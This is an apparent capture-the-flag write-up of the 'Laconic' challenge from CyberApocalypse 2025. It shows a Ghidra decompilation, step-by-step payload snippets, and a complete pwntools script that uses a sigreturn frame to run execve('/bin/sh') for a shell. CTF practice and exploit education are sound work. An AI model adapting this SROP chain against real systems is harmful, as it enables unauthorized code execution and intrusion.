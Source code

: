 ```yaml
---
title: CyberApocalypse 2025 - Laconic
published: true
---
```



### Using Sigreturn-Oriented Programming (SROP)





It was decompiled trought ghidra as you can see there's 

```c

typedef unsigned char   undefined;

typedef unsigned char    byte;
typedef unsigned int    dword;
typedef unsigned long    qword;
typedef unsigned short    word;
typedef enum Elf_ProgramHeaderType {
    PT_NULL=0,
    PT_LOAD=1,
    PT_DYNAMIC=2,
    PT_INTERP=3,
    PT_NOTE=4,
    PT_SHLIB=5,
    PT_PHDR=6,
    PT_TLS=7,
    PT_GNU_EH_FRAME=1685382480,
    PT_GNU_STACK=1685382481,
    PT_GNU_RELRO=1685382482
} Elf_ProgramHeaderType;

typedef struct Elf64_Phdr Elf64_Phdr, *PElf64_Phdr;

struct Elf64_Phdr {
    enum Elf_ProgramHeaderType p_type;
    dword p_flags;
    qword p_offset;
    qword p_vaddr;
    qword p_paddr;
    qword p_filesz;
    qword p_memsz;
    qword p_align;
};

typedef struct Elf64_Sym Elf64_Sym, *PElf64_Sym;

struct Elf64_Sym {
    dword st_name;
    byte st_info;
    byte st_other;
    word st_shndx;
    qword st_value;
    qword st_size;
};

typedef struct Elf64_Shdr Elf64_Shdr, *PElf64_Shdr;

typedef enum Elf_SectionHeaderType {
    SHT_NULL=0,
    SHT_PROGBITS=1,
    SHT_SYMTAB=2,
    SHT_STRTAB=3,
    SHT_RELA=4,
    SHT_HASH=5,
    SHT_DYNAMIC=6,
    SHT_NOTE=7,
    SHT_NOBITS=8,
    SHT_REL=9,
    SHT_SHLIB=10,
    SHT_DYNSYM=11,
    SHT_INIT_ARRAY=14,
    SHT_FINI_ARRAY=15,
    SHT_PREINIT_ARRAY=16,
    SHT_GROUP=17,
    SHT_SYMTAB_SHNDX=18,
    SHT_ANDROID_REL=1610612737,
    SHT_ANDROID_RELA=1610612738,
    SHT_GNU_ATTRIBUTES=1879048181,
    SHT_GNU_HASH=1879048182,
    SHT_GNU_LIBLIST=1879048183,
    SHT_CHECKSUM=1879048184,
    SHT_SUNW_move=1879048186,
    SHT_SUNW_COMDAT=1879048187,
    SHT_SUNW_syminfo=1879048188,
    SHT_GNU_verdef=1879048189,
    SHT_GNU_verneed=1879048190,
    SHT_GNU_versym=1879048191
} Elf_SectionHeaderType;

struct Elf64_Shdr {
    dword sh_name;
    enum Elf_SectionHeaderType sh_type;
    qword sh_flags;
    qword sh_addr;
    qword sh_offset;
    qword sh_size;
    dword sh_link;
    dword sh_info;
    qword sh_addralign;
    qword sh_entsize;
};

typedef struct Elf64_Ehdr Elf64_Ehdr, *PElf64_Ehdr;

struct Elf64_Ehdr {
    byte e_ident_magic_num;
    char e_ident_magic_str[3];
    byte e_ident_class;
    byte e_ident_data;
    byte e_ident_version;
    byte e_ident_osabi;
    byte e_ident_abiversion;
    byte e_ident_pad[7];
    word e_type;
    word e_machine;
    dword e_version;
    qword e_entry;
    qword e_phoff;
    qword e_shoff;
    dword e_flags;
    word e_ehsize;
    word e_phentsize;
    word e_phnum;
    word e_shentsize;
    word e_shnum;
    word e_shstrndx;
};




void processEntry entry(void)

{
  syscall();
  return;
}
```



First let's plonk down the available gadgets and their location, as well as the location of /bin/sh



### Exploitation




From here, I suggest you try the payload yourself. The padding (as you can see in the assembly) is 8 bytes until RIP, then you'll need to trigger a sigreturn, followed by the values of the registers. The triggering of a sigreturn is easy - sigreturn is syscall 0xf (15), so we just pop that into RAX and call syscall:


```python
payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
```


Now the syscall looks at the location of RSP for the register values; we'll have to fake them. They have to be in a specific order, but luckily for us pwntools has a cool feature called a SigreturnFrame() that handles the order for us.

```python
frame = SigreturnFrame()
```

Now we just need to decide what the register values should be. We want to trigger an execve() syscall, so we'll set the registers to the values we need for that:

```
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
```


However, in order to trigger this we also have to control RIP and point it back at the syscall gadget, so the execve actually executes:


`frame.rip = SYSCALL_RET` 

We then append it to the payload and send : 

```python
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

## Final Exploit

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

elf = context.binary = ELF('./laconic', checksec=False)
p = process()

BINSH = 0x43238  # Address of '/bin/sh' found in the binary
POP_RAX = 0x43018
SYSCALL_RET = 0x43015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```